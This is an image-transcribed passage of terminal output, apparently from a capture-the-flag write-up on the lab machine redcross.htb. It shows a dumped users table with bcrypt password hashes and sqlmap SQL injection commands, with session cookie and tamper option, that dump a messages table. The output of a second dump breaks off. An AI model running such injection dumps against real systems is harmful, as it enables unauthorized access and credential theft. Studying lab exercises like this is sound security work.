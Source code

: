 ``` text
| 1  | admin@redcross.htb           | $2y$10$z/d5GiwZuFqjY1jRiKIPzuPXKt0SthLOyU438ajqRBtrb7ZADpwq. | 0    | admin    |
| 2  | penelope@redcross.htb        | $2y$10$tY9Y955kyFB37GnW4xrC0.J.FzmkrQhxD..vKCQICvwOEgwfxqgAS | 1    | penelope |
| 3  | charles@redcross.htb         | $2y$10$bj5Qh0AbUM5wHeu/lTfjg.xPxjRQkqU6T8cs683Eus/Y89GHs.G7i | 1    | charles  |
| 4  | tricia.wanderloo@contoso.com | $2y$10$Dnv/b2ZBca2O4cp0fsBbjeQ/0HnhvJ7WrC/ZN3K7QKqTa9SSKP6r. | 100  | tricia   |
| 5  | non@available                | $2y$10$U16O2Ylt/uFtzlVbDIzJ8us9ts8f9ITWoPAWcUfK585sZue03YBAi | 1000 | guest    |
+----+------------------------------+--------------------------------------------------------------+------+----------+


xbytemx@laptop:~/htb/redcross$ sqlmap -u "https://intra.redcross.htb/?o=1&page=app" --cookie="PHPSESSID=le7n8htqei4pg268v1bm1vqtq1; LANG=EN_US; SINCE=1552972200; LIMIT=10; DOMAIN=intra;" --tamper=space2comment --random-agent -D redcross -T messages --dump

Database: redcross
Table: messages
[8 entries]
+----+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------+--------+----------------------------------------------+
| id | body                                                                                                                                                                                         | dest | origin | subject                                      |
+----+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------+--------+----------------------------------------------+
| 1  | You're granted with a low privilege access while we're processing your credentials request. Our messaging system still in beta status. Please report if you find any incidence.              | 5    | 1      | Guest Account Info                           |
| 2  | Hi Penny, can you check if is there any problem with the order? I'm not receiving it in our EDI platform.                                                                                    | 2    | 4      | Problems with order 02122128                 |
| 3  | Please could you check the admin webpanel? idk what happens but when I'm checking the messages, alerts popping everywhere!! Maybe a virus?                                                   | 3    | 1      | Strange behavior                             |
| 4  | Hi, Please check now... Should be arrived in your systems. Please confirm me. Regards.                                                                                                       | 4    | 2      | Problems with order 02122128                 |
| 5  | Hey, my chief contacted me complaining about some problem in the admin webapp. I thought that you reinforced security on it... Alerts everywhere!!                                           | 2    | 3      | admin subd webapp problems                   |
| 6  | Hi, Yes it's strange because we applied some input filtering on the contact form. Let me check it. I'll take care of that since now! KR                                                      | 3    | 2      | admin subd webapp problems (priority)        |
| 7  | Hi, Please stop checking messages from intra platform, it's possible that there is a vuln on your admin side...                                                                              | 1    | 2      | STOP checking messages from intra (priority) |
| 8  | Sorry but I can't do that. It's the only way we have to communicate with partners and we are overloaded. Doesn't look so bad... besides that what colud happen? Don't worry but fix it ASAP. | 2    | 1      | STOP checking messages from intra (priority) |
+----+----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------+------+--------+----------------------------------------------+

xbytemx@laptop:~/htb/redcross$ sqlmap -u "https://intra.redcross.htb/?o=1&page=app" --cookie="PHPSESSID=le7n8htqei4pg268v1bm1vqtq1; LANG=EN_US; SINCE=1552972200; LIMIT=10; DOMAIN=intra;" --tamper=space2comment --random-agent -D redcross -T requests --dump
Database: redcross
Table: requests
```